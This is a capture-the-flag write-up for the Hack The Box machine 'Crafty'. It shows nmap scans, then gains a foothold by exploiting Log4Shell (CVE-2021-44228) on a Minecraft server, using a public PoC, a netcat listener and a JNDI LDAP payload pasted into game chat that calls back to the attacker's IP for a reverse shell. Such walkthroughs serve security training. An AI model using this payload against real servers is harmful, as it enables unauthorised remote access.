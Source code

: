 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Crafty
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

#### Nmap Results

```
nmap 10.10.11.249 -p-
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/fbc9f2f4-73e7-4f98-9fb3-7856d3a97db9)

```
sudo nmap -p80,25565 -sV -sC 10.10.11.249
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/4a79d415-09b1-46a8-8d79-2dbb2f999681)


I add crafty to `/etc/hosts` with the corresponding ip address given. Then navigate to `http://crafty.htb`

```
echo "10.10.11.249 crafty.htb" | sudo tee -a /etc/hosts
```

When I visited `crafty.htb`, I found a Minecraft introduction page.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/4c649f78-9e8e-42b2-ac1d-7b782e8d63c0)


### Foothold
However, for `port 25565`, I recall there being a log4j vulnerability, `CVE-2021–44228` to be precise. This exploit enables control over log messages and parameters to execute arbitrary code. An exploit for this vulnerability can be found here.

```
git clone https://github.com/kozmer/log4j-shell-poc
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/be2f0fed-4ad2-48b6-bbf9-ccd312818f72)


Modify the `String cmd` variable to ensure compatibility with Windows.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/0f5a7e2e-8431-4bb8-bdca-a37c2d19fcfd)

In order for `poc.py` to run smoothly we need a java archive to be named `jdk1.8.0_20`. I found a java archive here

```
wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz
tar -xf jdk-8u181-linux-x64.tar.gz
mv jdk1.8.0_181 jdk1.8.0_20
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/ea8c6034-046d-4403-be85-10b8293e35c4)

To connect to the server, I needed to download the Minecraft client on my Kali system. After conducting some research, I downloaded TLauncher. https://tlauncher.org/en/download_1/minecraft-1-16-5_12582.html (I don't recommend using this, but I proceeded anyway since I'm installing it on a VM.) 
And I used Minecraft 1.16.5 Java Edition as I knew it's vulnerable to log4j.

one download the TLauncher.zip file, unzip it and open it by runing below command:


```
sudo java -jar TLauncher.jar
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/468caa45-5db4-42da-88ae-68c589cff9ef)


![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a5013fe2-04a9-4294-a7e9-4e607b6e33a7)

after that select the correct release version and fill the minecraft account name, then procced on `Enter the game`.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/edee156a-e103-44f7-8053-bff066a85aef)

Clicking on `Multiplayer` allowed me to enter the server.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b0c99b16-e72e-4528-9c4e-f2236aee7da5)

```
10.10.11.249:25565
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/f5e39e36-ac3c-4c1f-ba00-cf4a648214b3)

I had to attempt logging in to the server multiple times, and each time I had to reset the box for it to function properly. Once I login to the server, I opened a terminal and ran the POC. and it will show a command (`${jndi:ldap://10.10.16.18:1389/a}`) I copied that.

```
python3 poc.py --userip <tun0 IP> --webport 80 --lport 4444
```

and open another terminal and create a netcat listener on port 4444

```
nc -nlvp 4444
```

then in minecraft, I press `t` (to send a message) and in the chat box i paste that copied command (`${jndi:ldap://10.10.16.18:1389/a}`), so in few second i got the reverse shell in my netcat listener.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3ffc0caf-9e4a-4e8a-9a97-b623affeb991)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1a10e978-4a64-48d8-9990-c9d7ed14e5a7)

in below screenshot you can see whole process:

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/23388288-8ca3-4e85-bee1-e9a89d1c93c9)










